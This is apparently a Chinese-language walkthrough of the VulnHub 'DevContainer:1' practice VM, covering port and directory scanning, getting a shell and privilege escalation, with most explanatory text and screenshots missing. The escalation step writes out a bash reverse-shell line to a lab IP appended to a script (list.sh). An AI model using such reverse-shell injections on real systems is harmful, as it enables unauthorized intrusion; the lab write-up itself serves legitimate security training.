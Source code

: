 # 原创
：  VulnHub渗透测试实战靶场 - DevContainer：1

# VulnHub渗透测试实战靶场 - DevContainer：1

#### VulnHub渗透测试实战靶场 - DevContainer：1

## 题目描述

```
Goal: 2 flagas
Difficulty: Easy-intermediate
Information: Your feedback is appreciate:
Twitter: @0x04E1

This works better with VirtualBox rather than VMware

```

## 环境下载

> 



## DevContainer：1靶机搭建

> 

- 将下载好的靶机环境，导入 VritualBox，设置为 Host-Only 模式- 将 VMware 中桥接模式网卡设置为 VritualBox 的 Host-only


> 



## 渗透测试

### 信息搜集

> 
用 Nmap 扫描一下目标靶机的端口信息：`sudo nmap -sS -A 192.168.56.108`，发现开放了 80 端口


> 
用 dirb 扫描一下 80 端口 web 目录：`dirb http://192.168.56.108`


### 漏洞挖掘

> 



> 



### getshell

> 



> 



```
SHELL=/bin/bash script -q /dev/null

```

### 提权

> 



> 



```
echo "bash -i &gt;&amp; /dev/tcp/192.168.56.102/4444 0&gt;&amp;1" &gt;&gt; list.sh

```

> 



#### Flag-1

> 



> 



> 



> 



#### Flag-2

> 


